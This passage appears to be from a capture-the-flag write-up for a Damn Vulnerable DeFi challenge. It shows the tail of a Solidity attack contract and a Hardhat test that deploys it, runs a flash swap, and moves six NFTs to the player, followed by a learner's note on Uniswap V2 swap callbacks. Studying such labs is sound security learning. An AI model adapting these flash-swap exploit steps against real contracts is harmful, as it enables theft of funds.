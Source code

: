 ```solidity
    }
    
    function onERC721Received(
        address,
        address,
        uint256,
        bytes memory
    ) external pure override returns (bytes4) {
        return IERC721Receiver.onERC721Received.selector;// this need to be returned
    }

    receive() external payable {}
}
```

```jsx
it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */
        
    const Attacker = await ethers.getContractFactory("AttackContract");

    const attack = await Attacker.deploy(
      uniswapPair.address,
      marketplace.address,
      weth.address,
      devsContract.address,
      nft.address,
      player.address,
      { value: ethers.utils.parseEther("0.05") }
    );
    
    await attack.flashSwap();
    for (i = 0; i < 6; i++) {
      await attack.connect(player).transferNft(i);
    }
    });
```

## Exploits:
![Untitled](https://github.com/zuint256/Damn-Vulnerable-Learnings/assets/138932688/d2460c15-9750-4a93-ab30-04560432927c)

![Untitled (1)](https://github.com/zuint256/Damn-Vulnerable-Learnings/assets/138932688/1b871fcc-ea95-428f-988e-371ec13a385e)

- **Note:** This challenge is excellent for learning new things I got introduced to the uniswapV2Pair swap() function then I studied how it works and how it calls the unsiwapV2Call() function.
